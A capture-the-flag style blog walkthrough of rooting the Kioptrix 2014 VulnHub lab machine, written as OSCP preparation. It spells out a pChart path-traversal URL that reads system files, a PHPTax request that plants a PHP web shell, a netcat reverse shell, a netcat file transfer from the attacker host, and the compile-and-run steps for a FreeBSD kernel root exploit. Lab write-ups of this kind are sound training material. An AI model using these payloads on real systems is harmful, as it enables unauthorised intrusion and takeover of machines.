 ```yaml
---
layout: post
title: " Kioptrix - 2014"
date: 2020-08-12
ctf: true
excerpt: "Walkthrough for Kioptrix 2014 on Vulnhub"
tags: [pChart 2.1.3, PHPTax, FreeBSD 9.0 kernel exploit]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-2014-5,62/) 2014 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix 2014 netdiscover](/assets/img/KioptrixLevel20141.png)

Next I ran **threader3000** to enumerate the ports and let it complete it's suggested nmap scan

![Kioptrix 2014 threader3000 nmap](/assets/img/KioptrixLevel20142.png)

It appears we have two websites open on ports 80 and 8080, let's take a look at both. Let's start with the one on port 80 first.

![Kioptrix 2014 port 80 website](/assets/img/KioptrixLevel20143.png)

This appears to just be the default Apache webpage on older versions of Apache. Let's look at port 8080 next.

![Kioptrix 2014 Port 8080 website](/assets/img/KioptrixLevel20144.png)

I attempted to enumerate the site and gobuster was receiving a numerous amount of errors due to too many requests to both websites, so I decided to look at the source code of the sites, starting with the site on port 80 first. This is where I came across a comment that pointed to a potential directory.

![Kioptrix 2014 port 80 source code](/assets/img/KioptrixLevel20145.png)

I navigated to **/pChart2.1.3/index.php** and the page below appeared.

![Kioptrix 2014 pChart 2.1.3](/assets/img/KioptrixLevel20146.png)

This looked like it rendered various chart types. A quick search for pChart 2.1.3 exploits led me to this article on [exploit-db](https://www.exploit-db.com/exploits/31173). After reviewing the exploit, it appears that we can use it to display data in a file. Let's **runhttp://[machine ip]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd** and see what happens.

![Kioptrix 2014 /etc/passwd](/assets/img/KioptrixLevel20147.png)

We are able to view /etc/passwd and uncover that this is running FreeBSD. We know we were not able to get into the website on port 8080, so let's view the apache.conf file with this exploit. A quick Google search turns up [this](https://www.freebsd.org/doc/handbook/network-apache.html) documentation from the FreeBSD website - Apache's default configuration file is found at **/usr/local/etc/apache2x/httpd.conf**, where the x is the version number. With the version in nmap listed as 2.2 earlier, I entered the following **http://[[machine ip]]/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2fusr/local/etc/apache22/httpd.conf**. This pulled up the main Apache configuration file as shown below:

![Kioptrix 2014 Apache configuration](/assets/img/KioptrixLevel20148.png)

At the bottom of the configuration file is the configuration for the website on port 8080. It appears we can access it using a **Mozilla4 browser** user agent.

![Kioptrix 2014 Apache Configuration User Agent](/assets/img/KioptrixLevel20149.png)

Next, I installed [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/) in Firefox which allows you to switch user agents. I then switched my user agent to **Mozilla/4.0** and clicked on **Apply** (active window).

![Kioptrix 2014 User Agent](/assets/img/KioptrixLevel201410.png)

Next, I navigated to **http://[machine ip]:8080** and I was now able to access this directory. It contains a folder named **phptax**

![Kioptrix 2014 port 8080 website](/assets/img/KioptrixLevel201411.png)

Let's take a look at this site. It appears it is some sort of tax preparation software.

![Kioptrix 2014 PHPTax](/assets/img/KioptrixLevel201412.png)

Let's see if there are any known exploits for this software. I ran **searchsploit phptax** from my attacker PC and 3 results came up.

![Kioptrix 2014 searchsploit](/assets/img/KioptrixLevel201413.png)

I tried all 3 of these exploits and unfortunately was not able to get any of them to work. However, I took a look at the source code of these 3 exploits (this can be done with searchsploit -x [exploit #]). When I ran **searchsploit -x 25849**, I noticed something interesting even though it did not work when I ran it normally.

![Kioptrix 2014 25849 exploit](/assets/img/KioptrixLevel201414.png)

It appears that this creates a php file named **rce.php**. I ran this by typing in **http://[machine ip]:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";** I didn't get any errors, but I wasn't sure where it saved rce.php to. Poking around it appears that by looking at the **view** portions of the images shows a **/data/pdf** directory I navigated there and it looks like there was some cleanup that hadn't been done from testing on this box initially.

![Kioptrix 2014 /phptax/data/pdf directory](/assets/img/KioptrixLevel201415.png)

unfortunately, rce.php was not here. I moved up to the parent directory. There it is!

![Kioptrix 2014 rce.php location](/assets/img/KioptrixLevel201416.png)

Let's run **http://[machine ip]:8080/phptax/data/rce.php?cmd=id** and see what happens.

![Kioptrix 2014 command injection](/assets/img/KioptrixLevel201417.png)

Great, now we can perform command injection. Let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**.

![Kioptrix 2014 nc listener](/assets/img/KioptrixLevel201418.png)

I tried various [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and the Perl one worked (after I [url encoded](https://www.urlencoder.org/) it). Once encoded, paste this command after the **rce.php?cmd=** portion and press enter. You should now have a reverse shell.

![Kioptrix 2014 reverse shell](/assets/img/KioptrixLevel201419.png)

Let's run **uname -a**, we can see this is running FreeBSD 9.0

![Kioptrix 2014 uname -a](/assets/img/KioptrixLevel201420.png)

In another tab on our attacker pc, let's run **searchsploit FreeBSD 9.0**. 

![Kioptrix 2014 searchsploit freebsd 9.0](/assets/img/KioptrixLevel201421.png)

Let's copy the first one listed to our current folder with **searchsploit -m 28718**.

![Kioptrix 2014 28718.c](/assets/img/KioptrixLevel201422.png)

Let's go back to our foothold on the victim computer and see if gcc is present to compile this program.

![Kioptrix 2014 which gcc](/assets/img/KioptrixLevel201423.png)

It is present on our victim. Now we need to get the exploit over to the victim computer. Unfortunately, wget is not installed. Fortunately, we can copy this over with netcat, which is present on our victim computer.

![Kioptrix 2014 wget nc](/assets/img/KioptrixLevel201424.png)

On our **attacker** pc, let's run **nc -lp 4567 < 28718.c**

![Kioptrix 2014 nc send file](/assets/img/KioptrixLevel201425.png)

Next, on our **victim** pc, let's run **nc [attacker ip] 4567 > 28718.c**. 

![Kioptrix 2014 nc receive file](/assets/img/KioptrixLevel201426.png)

After a few seconds, terminate netcat on the attacker pc with CTRL+C. Go back to the attacker pc and run **gcc -o 28718 28718.c**

![Kioptrix 2014 gcc compile](/assets/img/KioptrixLevel201427.png)

Now, run the exploit with **./28718** and run **whoami**. We are now root!

![Kioptrix 2014 run exploit](/assets/img/KioptrixLevel201428.png)

Now, let's run **cd /root** and **ls -al**. You will see a congrats.txt file in there, so run **cat congrats.txt** to finish this box!

![Kioptrix 2014 root access](/assets/img/KioptrixLevel201429.png)



